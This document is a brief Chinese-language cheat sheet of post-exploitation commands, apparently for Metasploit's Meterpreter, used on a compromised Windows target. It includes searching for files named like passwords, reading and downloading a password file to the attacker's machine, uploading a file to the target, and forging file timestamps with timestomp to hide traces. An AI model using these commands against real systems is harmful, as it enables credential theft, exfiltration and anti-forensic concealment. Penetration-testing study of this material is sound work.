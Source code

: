 
# 文件系统命令

## 基本文件系统命令

```
getwd 或者pwd # 查看当前工作目录  
```
```
ls
```
```
cd
```
```
search -f *pass*       # 搜索文件  -h查看帮助
```
```
cat c:\\lltest\\lltestpasswd.txt  # 查看文件内容
```
```
upload /tmp/hack.txt C:\\lltest  # 上传文件到目标机上
```
```
download c:\\lltest\\lltestpasswd.txt /tmp/ # 下载文件到本机上
```
```
edit c:\\1.txt #编辑或创建文件  没有的话，会新建文件
```
```
rm C:\\lltest\\hack.txt
```
```
mkdir lltest2  #只能在当前目录下创建文件夹
```
```
rmdir lltest2  #只能删除当前目录下文件夹
```
```
getlwd   或者 lpwd   #操作攻击者主机 查看当前目录
```
```
lcd /tmp   #操作攻击者主机 切换目录
```

## timestomp伪造时间戳

```
timestomp C:// -h   #查看帮助
```
```
timestomp -v C://2.txt   #查看时间戳
```
```
timestomp C://2.txt -f C://1.txt #将1.txt的时间戳复制给2.txt
```
